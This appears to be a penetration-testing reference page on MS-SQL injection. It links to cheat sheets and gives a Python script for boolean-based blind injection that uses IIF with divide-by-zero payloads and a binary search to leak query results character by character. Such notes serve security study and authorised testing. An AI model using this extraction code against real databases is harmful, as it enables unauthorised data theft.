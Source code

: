 # MS-SQL Injection

## Cheatsheets

* [https://www.perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://www.perspectiverisk.com/mssql-practical-injection-cheat-sheet/)
* [http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

## Blind SQL Injection

### Error Based Injection

[https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-\(mssql\).pdf](https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-%28mssql%29.pdf)

### Boolean Based Blind

In the case of boolean based blind we can use the [IIF\(\)](https://docs.microsoft.com/en-us/sql/t-sql/functions/logical-functions-iif-transact-sql?view=sql-server-2017) function to extract data.  Say our injection point required an integer placed at a specific point such as:

```text
demo.asp?id=1
```

If we can't inject via stacked queries or other methods we can execute basic queries by utilizing the `IIF` Boolean result which is converted to an integer to guarantee execution.  This assumes a function `exploit` which returns a True or False response:

```python
def binary_search(payload):
	first = 0
	last = 127
	while first <= last:
		i = (first+last)/2
		eq = 'IIF({0}={1},1,1/0)'.format(payload,i)
		gt = 'IIF({0}<{1},1,1/0)'.format(payload,i)
		lt = 'IIF({0}>{1},1,1/0)'.format(payload,i)
		if exploit(eq) == True:
			return i
		elif exploit(gt) == True:
			last = i - 1
		elif exploit(lt) == True:
			first = i +1
		else:
			return 0

def leak_string(query, length=0):
	if length == 0:
		while True:
			payload = 'IIF(LEN({0})>{1},1,1/0)'.format(query, length)
                	if exploit(payload) == False:
                        	break
                	length += 1
	print '[+] Length of {0}'.format(length)
	name = ''
	for i in range(1, length+1):
		print name
		name += chr(binary_search('ASCII(SUBSTRING({0},{1},1))'.format(query,i)))
	return name
```




